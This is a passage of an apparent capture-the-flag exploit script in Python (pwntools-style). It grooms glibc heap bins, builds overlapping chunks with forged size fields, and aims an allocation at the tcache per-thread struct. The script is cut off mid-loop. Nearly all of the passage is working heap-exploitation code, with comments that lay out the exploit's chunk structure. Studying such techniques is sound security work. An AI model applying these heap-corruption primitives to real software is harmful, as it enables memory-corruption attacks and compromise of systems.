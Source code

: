 ```py
malloc("STUFF2",0x348,b"SOMETHING")
free("STUFF2")

# ======================== SETTING UP THE SMALLBINS TO FREE ================================

for i in range (13):
    malloc(f"SMOB-{i}",0x18,":D")
    malloc(f"SMOL-{i}",0x28,":D")

# SETTING UP 0x28 SMALLBIN

for i in range (9):
    if(i == 6 or i==5):
        continue
    free(f"SMOL-{i}")
    
# ONE NEAR
free("SMOL-6")
# ONE IN CONTROL
free("B20.1-10")
# DED CHUNKS
free("SMOL-0")
free("SMOL-9")
free("SMOL-10")

for i in range (3):
    malloc(f"MAIN{i}",0x338,b"AAAAAAAA")

# [ONE_TO_GET_USED]->[ONE_IN_CONTROL]->[ONE_NEAR_STRUCT]
# THIS IS THE BASIC STRUCTURE OF THE EXPLOIT 
# ONE_NEAR THE STRUCT IS PARTIALLY OVERWRITTEN WITH THE PERTHREAD STRUCT ADDRESS AS WE HAVE WAF
# FIRST WRITE IS PRETTY SIMPLE AS WE CAN SET IT UP A BIT BEFORE BUT SECOND ONE IS TRICKY

# ==================== MARKING WHERE WE KILL OFF LARGEBINS =====================

# SETTING UP LARGEBINS
free("MC-4")
free("MC-2")

# # SHUFFLE AND ZAP OUT LARGEBINS T-T
malloc("SHF-1",0x600,"HELLO")
zap("MC-4")
context.log_level = "DEBUG"

# GAINING OVERLAPPING CHUNKS
malloc("OVERLAP-1",0x428,b"OH MY GAD ('O') OVERLAPPING CHUNKS YEY!!" + 
        p64(0x21) + 0x18*b"a" + 
        p64(0x31) + 0x8*b"a"  + b"\x00"
        )

for i in range (8):
    malloc(f"CACHE3-{i}",0x28,b"AHAHA")

# =================== GOT FIRST ALLOCATION ON TCACHE STRUCT ======================

# GETTING SIZE ALLOCATED ON THE TCACHE PERTHREAD STRUCT 
malloc("CACHE3-8",0x28,b"AHAHA")
malloc("VICTIM-2",0x28,p64(0x0) + p64(0x461) + p64(0x0))

malloc("CACHE3-9",0x28,"HAAHAH")

# FILLING TCACHE
for i in range (6):
```